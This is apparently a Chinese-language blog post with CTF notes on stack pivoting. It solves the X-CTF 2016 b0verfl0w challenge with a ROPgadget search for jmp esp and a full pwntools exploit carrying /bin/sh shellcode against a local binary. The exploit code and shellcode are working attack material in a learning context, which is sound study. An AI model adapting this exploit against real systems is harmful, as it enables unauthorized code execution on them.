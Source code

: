 ﻿---
layout:     post
title:      栈溢出基础浅记（4）
subtitle:   stack pivoting
date:       2023-10-08
author:     Kody Black
header-img: img/post-bg-normal.jpg
catalog: true
tags:
    - pwn
---

## stack pivoting

[花式栈溢出技巧 - CTF Wiki (ctf-wiki.org)](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/fancy-rop/#stack-pivoting)

该方法主要针对难以直接构造较长的ROP，而我们可以找到一块可以自己控制的地址空间，通过劫持sp指针，改变程序流到我们所需的地址空间上，执行目标代码

针对[X-CTF Quals 2016 - b0verfl0w](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/stackprivot/X-CTF Quals 2016 - b0verfl0w)这个题目

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```

可以看到栈上可以执行

![16967426912551696742690311.png](https://fastly.jsdelivr.net/gh/distiny-cool/pictures@main/images/16967426912551696742690311.png)

危险函数为fget，限制长度为0x32，输入到EBP的距离为0x20，所以可以输入ROP的地址只剩下0x32-0x20-4=14个字节。

这道题正好符合能写ROP的长度较短，但是栈上可以执行。

```
ROPgadget --binary b0verfl0w --only 'jmp|ret' | grep esp
0x08048504 : jmp esp
```

找到jmp esp，那么就可以把控制流转移到栈上面。

构造的payload如下：

![1696748777201b6d0b6232ce3b924b292fb79813f84a.jpg](https://fastly.jsdelivr.net/gh/distiny-cool/pictures@main/images/1696748777201b6d0b6232ce3b924b292fb79813f84a.jpg)

exp如下：

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

# buffer length:0x20
# input length limit:50
# 0x08048504 : jmp esp

sh = process('./b0verfl0w')
file = ELF('./b0verfl0w')
# gdb.attach(sh)

shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

sub_esp_jmp = asm('sub esp, 0x28;jmp esp')
jmp_esp = 0x08048504

payload = shellcode.ljust(0x20, b'a') + b'bbbb' + p32(jmp_esp) + sub_esp_jmp

sh.sendline(payload)
sh.interactive()

# libc_start_main_addr = u32(sh.recv()[0:4])
# print ("get the related addr of libc_start_main_got is " + hex(libc_start_main_addr))
```

